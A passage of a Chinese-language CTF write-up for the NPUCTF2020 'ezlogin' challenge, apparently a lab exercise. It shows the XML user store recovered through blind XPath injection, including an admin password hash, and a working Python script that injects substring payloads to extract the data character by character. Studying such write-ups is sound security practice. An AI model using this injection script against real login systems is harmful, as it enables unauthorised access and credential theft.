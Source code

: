 似乎是解析器的问题 (?) 套了三层之后就检测不出来了

同样能够得到 flag

## [NPUCTF2020]ezlogin

登录页面 xpath 注入

比较烦的是每登录一次 token 就要更新

盲注出来的 xml 结构大致如下

```xml
<root>
    <accounts>
        <user>
            <id>1</id>
            <username>guest</username>
            <password>...</password>
        </user>
         <user>
            <id>2</id>
            <username>adm1n</username>
            <password>cf7414b5bdb2e65ee43083f4ddbc4d9f</password>
        </user>   
    </accounts>
</root>
```

python 脚本

```python
import requests
import time
import json
import re

# dicts = r'{}_,.-0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'
# dicts = r'-0123456789abcdefgl{}'
dicts = '_0123456789abcdefghijklmnopqrstuvwxyz'

flag = ''

req = requests.Session()

for i in range(1, 99999):
    for s in dicts:
        time.sleep(0.2)
        print('testing', s)
        url = 'http://41b2f226-548a-4a99-b535-5c53aee7dbd3.node4.buuoj.cn:81/'
        res1 = req.get(url)
        token = re.findall('"token" value="(.*)"', res1.text)[0]
        # username = "' or count(/root/accounts/user[1]/*)=3 or '1"
        # username = "' or string-length(name(/root/accounts/user[1]/*[2]))=8 or '1"
        username = "' or substring((/root/accounts/user[2]/username), {}, 1)='{}' or '1".format(i, s)
        password = "123"
        xml = '''<username>{}</username><password>{}</password><token>{}</token>'''.format(username, password, token)
        res2 = req.post(url + 'login.php', data=xml, headers={
            'Content-Type': 'application/xml'
        })
        # print(res2.text)
        # exit()
        if '非法操作!' in res2.text:
            flag += s
            print(flag)
```